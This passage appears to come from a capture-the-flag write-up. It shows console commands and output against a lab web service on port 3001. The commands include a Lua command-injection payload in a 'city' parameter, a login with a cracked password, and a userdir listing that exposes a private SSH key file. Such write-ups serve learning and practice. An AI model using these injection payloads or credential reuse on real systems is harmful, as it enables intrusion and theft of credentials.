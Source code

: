 3001 port also has a `/weather/forecast` service with no command injection, no poc:

```console
$ curl -G --data-urlencode "city=qwe');require('os');os.execute('id');--" "http://127.0.0.1:3001/weather/forecast"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    78    0    78    0     0  19500      0 --:--:-- --:--:-- --:--:-- 26000
{"code": 500,"error": "unknown city: qwe');require('os');os.execute('id');--"}
```

httpd's `-u` option meaning:

```console
 -u         Enables the transformation of Uniform Resource Locators of the
            form /~user/ into the directory ~user/public_html (but see the
            -p option above).
```

and this process belongs to r.machael which means we can enum this user's home directory using `/~r.machaels` with cracked password:

```console
$ curl http://127.0.0.1:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   211  100   211    0     0  70333      0 --:--:-- --:--:-- --:--:-- 70333
<html><head><title>401 Unauthorized</title></head>
<body><h1>401 Unauthorized</h1>
~r.michaels//: <pre>No authorization</pre>
<hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
</body></html>

$ curl http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   146k      0 --:--:-- --:--:-- --:--:--  146k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```
